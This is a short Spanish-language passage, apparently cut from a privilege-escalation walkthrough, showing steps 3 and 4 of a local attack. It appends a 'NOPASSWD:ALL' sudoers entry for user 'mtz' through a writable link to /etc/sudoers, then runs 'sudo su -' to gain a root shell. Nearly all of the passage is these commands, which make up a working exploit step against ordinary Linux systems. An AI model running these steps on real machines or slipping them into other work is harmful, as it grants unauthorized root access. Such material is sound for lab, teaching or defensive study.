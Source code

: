 3. Edita el sudoers, añadiendo una línea NOPASSWD para ti. Como ahora tienes permiso de escritura en /etc/sudoers, puedes hacerlo directamente:

```
echo "mtz ALL=(ALL) NOPASSWD:ALL" >> /home/mtz/sudoers_link
```

4. Ya puedes invocar sudo como root sin contraseña:

```
sudo su -
```

¡Y serás root!

